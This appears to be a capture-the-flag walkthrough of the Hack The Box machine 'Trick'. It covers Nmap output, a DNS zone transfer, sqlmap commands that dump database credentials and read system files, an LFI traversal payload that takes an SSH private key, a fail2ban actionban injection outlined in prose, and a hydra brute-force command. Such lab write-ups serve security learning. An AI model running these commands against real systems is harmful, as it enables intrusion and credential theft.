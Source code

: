 Hack The Box: trick

IP = 10.129.87.146

Nmap -Scan

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 80 is running a static web page

Port 53 is open as tcp port. Which is lead to dns zone transfer
Before start doing zone transfer we need to get the HOSTNAME

Reverse DNS lookup using Nslookup tool

```bash
nslookup                                         
> server 10.129.87.146
Default server: 10.129.87.146
Address: 10.129.87.146#53
> 10.129.87.146
146.87.129.10.in-addr.arpa	name = trick.htb.
```
found the domain name **trick.htb**

Zone Transfer using dig tool

```bash
dig axfr @10.129.87.146 trick.htb

; <<>> DiG 9.16.27-Debian <<>> axfr @10.129.87.146 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 906 msec
;; SERVER: 10.129.87.146#53(10.129.87.146)
;; WHEN: Sun Jun 19 05:32:23 GMT 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

found the subdomain **preprod-payroll.trick.htb**

"In this web app their are two vuln firstone is bypassing the login using response manupulation
and the anotherone is union based sql injection on login parameter and id parameter in a employeemanagement edit 
funtion"

Sql injection UNION BASED 

identifying
```bash
sqlmap -u http://preprod-payroll.trick.htb/manage_employee.php?id=1 -dbs
````
extract database tables
```bash
sqlmap -u 'http://preprod-payroll.trick.htb/manage_employee.php?id=1' -dbs -D payroll_db --tables
````
extract users tables columns in payroll_db
```bash
sqlmap -u 'http://preprod-payroll.trick.htb/manage_employee.php?id=1' -dbs -D payroll_db -T users --columns
```
Dump the username from payroll_db.users
```bash
sqlmap -u 'http://preprod-payroll.trick.htb/manage_employee.php?id=1' -dbs -D payroll_db -T users -C username --dump
```
Username:Enemigosss

Dump the password from payroll_db.users
```bash
sqlmap -u 'http://preprod-payroll.trick.htb/manage_employee.php?id=1' -dbs -D payroll_db -T users -C password --dump
```
Password:SuperGucciRainbowCake

Check the database user username and privilege
```bash
sqlmap -u 'http://preprod-payroll.trick.htb/manage_employee.php?id=1' --current-user 
```
user:remo
```bash
sqlmap -u 'http://preprod-payroll.trick.htb/manage_employee.php?id=1' --privileges
````
privilege:FILE

"The file privilege gives you permission to read and write files on the server using the LOAD DATA INFILE and SELECT ... INTO OUTFILE statements. Any user to whom this privilege is granted can read or write any file that the MySQL server can read or write. The reload command tells the server to re-read the grant tables."

Reading server files

```bash
sqlmap -u http://preprod-payroll.trick.htb/manage_employee.php?id=1' --file-read=/etc/passwd
````
Check nginx site config for vhosts

```bash
sqlmap -u http://preprod-payroll.trick.htb/manage_employee.php?id=1' --file-read=/etc/nginx/sites-available/default
```
Found an another domain 

**preprod-marketing.trick.htb**

bypass the lfi security measure and got the ssh key
```bash
http://preprod-marketing.trick.htb/index.php?page=services.html
```
**payload=....//....//....//home/michael/.ssh/id_rsa***


Root Part :abusing fail2ban

default fail2ban config file location **/etc/fail2ban/**

"every 3 minute their is a cronjonb running to remove all file in fail2ban dir and cp default files again
The jail set to sshd in /etc/fail2ban/jail.conf
every ten second after 5 failed attempt the ssh login ip will be block"

Exploit

create a new config file in /etc/fail2ban/action.d/

create a new config file in /etc/fail2ban/action.d/

iptables-multiport.conf to iptables-multiport.local

injection system command in actionban parameter in iptables-multiport.local 

restart fail2ban service

bruteforce ssh using hydra
```bash
hydra -l remo -P /opt/rockyou.txt 10.129.35.174 ssh
```